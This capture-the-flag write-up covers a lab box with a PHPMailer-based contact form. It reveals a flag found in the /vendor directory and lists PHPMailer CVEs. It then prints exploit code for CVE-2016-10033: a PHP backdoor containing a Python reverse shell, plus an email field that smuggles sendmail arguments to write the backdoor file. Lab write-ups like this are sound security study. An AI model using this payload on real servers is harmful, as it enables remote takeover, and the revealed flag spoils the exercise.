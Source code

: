 ## Flag Discovery

### Flag 1 - Direct Access via /vendor Directory

Exploring the `/vendor` directory revealed various files including PHPMailer components:


<img width="850" height="676" alt="image" src="https://github.com/user-attachments/assets/3f0c643e-dd55-4fad-becc-4a490c3b4665" />



The `PATH` file contained the first flag:


<img width="530" height="117" alt="image" src="https://github.com/user-attachments/assets/df103605-699d-4e8d-bd38-599e97b288ec" />



**Flag 1**: `flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}`

### PHPMailer Vulnerability Discovery

The vendor directory contained PHPMailer with known security vulnerabilities. The `SECURITY.md` file revealed multiple CVEs:


<img width="1322" height="567" alt="image" src="https://github.com/user-attachments/assets/7644bdf4-41d9-4537-8614-8443b0304a6a" />



Key vulnerabilities identified:

- **CVE-2016-10033**: Remote code execution vulnerability
- **CVE-2015-8476**: SMTP CRLF injection
- **CVE-2008-5619**: Remote code execution in bundled html2text library


## Initial Exploitation

### PHPMailer CVE-2016-10033 Exploit

Used the PHPMailer exploit to gain initial access through the contact form:

```python
# PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com
target = 'http://192.168.1.13/contact.php'
backdoor = '/mchi.php'
payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.1.6\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'

fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\" -OQueueDirectory=/tmp -X/var/www/html/mchi.php server\\" @protonmail.com',
        'message': 'Pwned'}
```
